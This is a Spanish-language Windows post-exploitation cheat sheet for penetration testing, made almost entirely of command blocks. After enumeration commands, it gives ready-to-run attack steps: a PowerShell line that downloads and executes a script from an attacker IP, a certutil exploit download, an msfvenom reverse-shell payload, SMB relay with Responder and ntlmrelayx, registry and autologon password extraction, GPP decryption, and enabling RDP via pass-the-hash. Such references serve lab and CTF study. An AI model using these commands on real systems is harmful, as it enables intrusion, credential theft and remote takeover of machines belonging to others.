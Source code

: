 #windows 
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```

### smbclient 

```python
	smbclient \\\\spookysec.local\\backup --user user --password pass
```
### Búsqueda de archivos

```python
#CMD
cmd /c dir /r /s C:\root.txt

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

cmd.exe /c dir /s /b C:\user.txt
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````

### Descarga de archivos

```python
certutil.exe -urlcache -f 10.10.14.4 exploit.exe
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```
### Web Client

```python
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.64/SharpHound.ps1')
```
### Generación de Reverse Shell ejecutable

```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### SMBRelay

```python
#Comprobando firmas SMB
crackmapexec smb 10.0.2.6
nmap -p 445 --script smb2-security-mode <IP> -Pn
#Ataque con Responder
#Editar el archivo de configuración de Responder y desactivar las opciones SMB y HTTP -> /etc/responder/Responder.conf
sudo responder -I eth0 -dw
impacket-ntlmrelayx -t <IP_VÍCTIMA> -smb2support
#(Actualizar este punto porque parece que los comandos y la ejecución está bastante deprecada)
```
### Credenciales Autólogo

```python
cd HKLM:

cd "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Get-ItemProperty . | select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```

### Habilitar el RDP


netexec smb IP -u administrator -H hash -m rdp -o ACTION=enable